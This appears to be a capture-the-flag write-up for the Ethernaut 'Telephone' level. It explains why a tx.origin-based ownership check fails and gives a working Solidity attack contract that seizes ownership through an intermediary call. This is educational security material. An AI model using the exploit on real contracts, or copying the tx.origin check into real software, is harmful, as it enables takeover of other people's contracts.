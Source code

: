 This contract has the objective of becoming the owner of the contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

Above is the code of the contract. As we can see the way to change the owner of the contract is to call ```changeOwner``` with the ```tx.origin``` and the ```msg.sender``` variable being different from eachother. I found this [link](https://ethereum.stackexchange.com/questions/1891/whats-the-difference-between-msg-sender-and-tx-origin/1892) that described the difference between the 2 variables. Looking over this link it looks like we can have the 2 be different if we have a contract send the command for us. In this case the ```tx.origin``` will be our address but ```msg.sender``` will be the contract's address. 

The code to attack the contract is below. 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}

contract Attack {
    Telephone public vuln;
    
    constructor() public {
        vuln = Telephone(0x61332fcF368A1639df28896EA6bA79Ba6b79E2bb);
    }
    
    function exploit() public {
        vuln.changeOwner(0x7cd9b6A2c517e1930F230d032Ab25F497A87c651);
    }
}
```

In this code we have to set the address to Telephone contract by using the instance command on Ethernaut. I created a function called exploit that calls changeOwner of the vulnerable contract with our player address as the parameter. All we have to do is deploy the contract with remix and call the exploit function using their site. 

![](attach/Pasted%20image%2020210822210033.png)

![](attach/Pasted%20image%2020210822210100.png)
